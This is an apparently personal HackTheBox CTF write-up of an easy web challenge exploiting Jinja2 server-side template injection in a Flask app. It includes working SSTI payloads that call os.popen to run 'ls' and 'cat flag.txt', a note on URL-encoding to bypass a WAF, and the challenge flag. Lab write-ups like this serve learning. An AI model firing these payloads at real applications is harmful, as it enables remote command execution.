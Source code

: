```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: false
Status: 3. Complete
Tags:
  - SSTI
  - jinja
  - flask
---
```

>[!quote]
>*Can you exploit this simple mistake?*


# Set up

-

# Information Gathering

Enumerated home page:

![Pasted image 20210504184736.png](../../zzz_res/attachments/Pasted_image_20210504184736.png)

Enumerated reflection point:

![Pasted image 20210504184808.png](../../zzz_res/attachments/Pasted_image_20210504184808.png)

# The Bug

Searched online for Flask/Jinja2 vulnerabilities:

- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

![PoC Server Side Template Injection:](../../zzz_res/attachments/Pasted_image_20210504185003.png)

PoC Server Side Template Injection:

# Exploitation

`{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

![Pasted image 20210504185605.png](../../zzz_res/attachments/Pasted_image_20210504185605.png)

Url encoding everything is it possible to bypass the WAF:
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`

![Pasted image 20210504190153.png](../../zzz_res/attachments/Pasted_image_20210504190153.png)

## Flag.txt

>[!success]
>`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`